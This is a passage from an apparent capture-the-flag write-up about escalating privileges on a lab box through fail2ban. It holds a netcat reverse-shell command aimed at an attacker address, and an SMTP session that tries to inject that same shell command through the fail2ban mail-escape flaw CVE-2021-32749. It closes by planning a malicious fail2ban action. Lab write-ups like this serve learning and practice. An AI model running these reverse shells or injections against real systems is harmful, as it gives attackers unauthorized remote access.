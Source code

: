 Perhaps there is a way to use fail2ban to escalate? pspy showed that /root/fail2ban is being backed-up to /etc, so I can at least take a look at what's inside. Also since michael is in the ``security`` group, it's worth checking out ``/etc/fail2ban/action.d``

Fail2Ban appears to have had a pretty severe CVE leading to code execution: [CVE-2021-32749](https://github.com/fail2ban/fail2ban/security/advisories/GHSA-m985-3f3v-cwmm). However, this git repo shows that ``mail`` is used, and ``mail`` is not present on this box. Neither is the leading alternative ``sendmail``... neither are the less-common alternatives ``mutt`` nor ``ssmtp``.

:bulb:But wait, maybe that telnet trick that I used earlier would be enough to exploit CVE-2021-32749 ? 

First, I set up a nc listener and checked if a netcat reverse shell would even work on this box (sometimes they don't have the -e flag):

```
on attacker:
nc -lvnp 4444

on target:
nc 10.10.14.5 4444 -e /bin/sh
```

![nc test](nc test.png)

Yep, that's successful. Now let's see if we can get root using the same trick? We already know root is running postfix, so perhaps we can use this CVE to get a root reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ telnet $RADDR 25                                                                                                                                                                             1 ⨯
Trying 10.10.11.166...
Connected to 10.10.11.166.
Escape character is '^]'.
220 debian.localdomain ESMTP Postfix (Debian/GNU)
MAIL FROM: root
250 2.1.0 Ok
RCPT TO: michael 
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
Michael, I'm sending you an email\n~! nc 10.10.14.5 4444 -e /bin/sh 

.
250 2.0.0 Ok: queued as B36C741221
QUIT
221 2.0.0 Bye
Connection closed by foreign host.
```

To check if the email was delivered, I used ``mailq``. Indeed it was delivered, but no reverse shell appeared...

Ok, that's too bad, but I still think fail2ban is a solid lead. We already saw that the ``/etc/fail2ban/action.d`` directory is writable by michael. So maybe it is possible to create a new fail2ban action that will acquire us the root shell.
